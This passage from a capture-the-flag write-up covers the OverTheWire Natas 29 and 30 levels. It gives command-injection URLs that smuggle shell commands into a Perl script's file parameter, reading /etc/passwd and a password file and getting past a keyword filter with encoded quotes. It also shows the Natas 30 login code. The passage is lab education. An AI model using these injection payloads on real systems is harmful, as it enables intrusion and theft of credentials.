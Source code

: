 ```http
http://natas29.natas.labs.overthewire.org/index.pl?file=perl+underground
```

We immediately think of trying to include the file of our choice which is ofcourse the password file for the user natas30. All my attempts to include any file remotely or locally failed.

It seems that the perl script is using this filename as an argument and then populating the UI. So could we try escaping and performing command injection?

Initial attempts failed, but when I tried null terminating the URL with %00. %0a works too, but not %0d. This shows the list of files in the current directory.

```http
http://natas29.natas.labs.overthewire.org/index.pl?file=|ls%00
```

The following works as well, which means the ‘/’ is not being escaped or filtered

```http
http://natas29.natas.labs.overthewire.org/index.pl?file=|cat%20/etc/passwd%0a
```

Let us try to fetch natas30’s password. First I tried an ls.

```http
http://natas29.natas.labs.overthewire.org/index.pl?file=|ls%20/etc/natas_webpass%0a
```

This fails, and “meeeep” is printed- It is filtering on the word natas and blocking it. Let us use encoding here and try to beat this filter. To do this we add url encoded version of single quotes to beat this filter which are going to be filtered out, but will help us beat the check for the word “natas”. It works.

```http
http://natas29.natas.labs.overthewire.org/index.pl?file=|cat%20/etc/na%22t%22as_webpass/na%22ta%22s30%0a
```

# Natas 30

Another PERL based challenge. It is a webform with username and password, and we have to login. Looking at the source code we see that they are using “prepare” for performing SQL queries, hence that should be pretty tight against any SQL injection attempts.

So we have to exploit some other flaw in the application. So since the code is pretty small, we can identify what is of interest here.

```perl
if ('POST' eq request_method && param('username') && param('password')){
    my $dbh = DBI->connect( "DBI:mysql:natas30","natas30", "<censored>", {'RaiseError' => 1});
    my $query="Select * FROM users where username =".$dbh->quote(param('username')) . " and password =".$dbh->quote(param('password'));     my $sth = $dbh->prepare($query);
    $sth->execute();
    my $ver = $sth->fetch();
    if ($ver){
        print "win!<br>";
        print "here is your result:<br>";
        print @$ver;
    }
    else{
        print "fail :(";
    }
    $sth->finish();
    $dbh->disconnect();
}
```
